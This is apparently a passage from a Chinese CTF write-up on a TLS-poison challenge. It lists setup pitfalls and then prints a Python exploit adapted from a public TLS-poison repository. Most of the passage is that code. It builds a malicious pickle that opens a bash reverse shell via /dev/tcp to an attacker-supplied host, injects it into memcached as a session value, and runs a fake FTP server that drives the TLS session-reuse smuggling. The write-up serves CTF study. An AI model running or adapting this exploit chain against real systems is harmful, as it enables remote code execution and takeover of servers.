 主要坑点:

1. 需要注意使用正确的DNS证书
2. 需要修改FTPS实现过程中的返回数据
3. 需要自己计算一下11200=256\*43+192(这是FTPS进行会话复用时的连接端口)
4. mencached语句正确使用(set 键名 标识 数据长度 存储时间)回车()

解题主要用到的就是`ZeddYu`师傅在上文连接中提到的[EXP工具](https://github.com/ZeddYu/TLS-poison),简单说一下这个工具的作用:

1. 指定证书进行TLS连接并将将TLS上层流量转发到 2048 端口,然后我们在2048端口实现一个FTPS的服务流程(就是指定发出一些FTPS连接过程中命令执行的返回数据)
2. 从redis服务中从`payload`键值对的值作为FTPS会话复用的时候需要执行的memcached命令

该脚本主要从[Practice1-hxp2020/solution2/exp.py](https://github.com/ZeddYu/TLS-poison/blob/master/Practice1-hxp2020/solution2/exp.py)修改得到

```python
#i
import os
import pickle
import socketserver
import sys

import redis
class Test2(object):
    def __reduce__(self):
        #被调用函数的参数
        cmd = f"bash -c 'exec bash -i &>/dev/tcp/{sys.argv[2]}/{sys.argv[3]} <&1'"
        return (os.system,(cmd,))
pickle_code=pickle.dumps(Test2())
print(pickle_code)
length=len(pickle_code)
payload=b"\r\nset actfSession:admint 0 0 "+str(len(pickle_code)).encode()+b"\r\n"+pickle_code+b"\r\n"
def set_payload(payload):
    r = redis.Redis(host='127.0.0.1', port=6379, db=0)
    print('payload len: ', len(payload), file=sys.stderr)
    r.set('payload', payload)
    return payload

print("设置的sessionid为:",set_payload(payload))
print("payload长度为:",len(payload))

class MyTCPHandler(socketserver.StreamRequestHandler):
    def handle(self):
        print(0,'[+] connected', self.request, file=sys.stderr)
        self.request.sendall(b'220 (vsFTPd 3.0.3)\r\n')

        self.data = self.rfile.readline().strip().decode()
        print(1,self.data, file=sys.stderr,flush=True)
        self.request.sendall(b'230 Login successful.\r\n')

        self.data = self.rfile.readline().strip().decode()
        print(2,self.data, file=sys.stderr)
        self.request.sendall(b'227 yolo\r\n')

        self.data = self.rfile.readline().strip().decode()
        print(3,self.data, file=sys.stderr)
        self.request.sendall(b'227 yolo\r\n')

        self.data = self.rfile.readline().strip().decode()
        print(4,self.data, file=sys.stderr)
        self.request.sendall(b'257 "/" is the current directory\r\n')
# vps:importlib/a/b
#         self.data = self.rfile.readline().strip().decode()
#         print(5,self.data, file=sys.stderr)
#         self.request.sendall(b'250 Directory successfully changed.\r\n')
```